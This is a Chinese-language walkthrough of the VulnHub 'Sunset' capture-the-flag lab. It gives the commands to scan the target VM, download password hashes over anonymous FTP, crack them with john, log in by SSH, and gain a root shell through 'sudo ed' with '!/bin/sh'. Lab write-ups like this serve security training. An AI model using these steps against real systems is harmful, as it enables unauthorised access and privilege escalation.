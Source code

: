# Sunset

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：Sunset（IP：192.168.56.103）

下载：https://www.vulnhub.com/entry/sunset-1,339/

## Let's go

```
nmap -A 192.168.56.103
```

![](./img/Sunset-01.png)

> **检测到允许匿名登录，我们进行尝试**

```
ftp
open 192.168.56.103
anonymous			  #密码为空
ls
get backup			  #下载backup
bye
```

![](./img/Sunset-02.png)

> **查看文件发现五个用户的哈希，我们使用john破解**

```
cat backup		#将哈希写入hash
vim hash		#靶机名sunset,所有我将sunset写在首行
john hash
```

![](./img/Sunset-03.png)

![](./img/Sunset-04.png)

> **得到用户 'sunset' ，密码 'cheer14'，我们进行SSH登录**

```
ssh sunset@192.168.56.103
```

![](./img/Sunset-05.png)

```
#发现哈希，然而好像没什么用
sudo -l
```

![](./img/Sunset-06.png)

> **搜索发现ed命令是文本编辑器，我们可以通过!/bin/sh提权**

![](./img/Sunset-07.png)

```
sudo /usr/bin/ed
!/bin/sh
cd /root
cat flag.txt
```

![](./img/Sunset-08.png)